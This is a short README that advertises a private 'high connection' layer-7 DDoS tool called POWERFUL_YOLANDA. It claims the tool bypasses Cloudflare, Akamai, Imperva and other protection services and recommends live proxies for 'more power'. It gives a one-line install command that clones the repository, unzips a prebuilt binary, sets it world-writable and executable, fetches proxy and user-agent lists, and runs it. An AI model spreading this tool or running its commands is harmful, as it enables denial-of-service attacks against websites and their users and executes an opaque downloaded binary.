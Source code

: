 # POWERFUL_YOLANDA HIGH CONNECTION L7 DDOS (PRIVATE)

# BYPASS - CLOUDFLARE, DDOSGUARD, SUCURI, IMPERVA AKAMAI, FASTLY, AMAZON CLOUDFRONT, GOOGLE LLC, INCAPSULA

# GOOD/LIVE PROXIES MORE POWER
# INSTALL
```
git clone https://github.com/FDc0d3/POWERFUL_YOLANDA; cd POWERFUL_YOLANDA; pip3 install httpx; unzip POWERFUL_YOLANDA.zip; rm POWERFUL_YOLANDA.zip; chmod 777 POWERFUL_YOLANDA; python3 proxy.py; npm i randomstring; npm i gradient-string; wget https://raw.githubusercontent.com/FDc0d3/GoodUA/main/UA.txt; ./POWERFUL_YOLANDA
